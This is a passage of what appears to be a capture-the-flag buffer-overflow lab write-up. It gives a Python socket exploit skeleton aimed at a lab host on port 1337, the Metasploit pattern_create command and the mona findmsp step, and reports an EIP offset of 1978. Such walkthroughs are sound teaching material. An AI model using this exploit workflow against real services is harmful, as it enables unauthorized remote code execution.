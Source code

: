 
![overflowed](https://i.imgur.com/jTyd2Ef.png)

![fuzz](https://i.imgur.com/IEnadEL.png)

so from above images we can get to know that we are able to crash them by sending characters around 2000 so lets head more further and find out the exact offset.<br>
but before that lets get the exploit by which we can send our payload. 

```python
import socket

ip = "10.10.73.127"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

this simple python script is going to help us now but before that lets create a pattren of 2400 characters, for creating an pattren there are many ways I used this [pattren-genrator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) <br>

but you can also creat it using <br> 

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400` 

after creating the pattren i modified the above exploit just added the value of payload with genrated characters. and run it you will find it crashing again.... <br>
now run following command `!mona findmsp -distance 2400`

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

so the offset of this is 1978
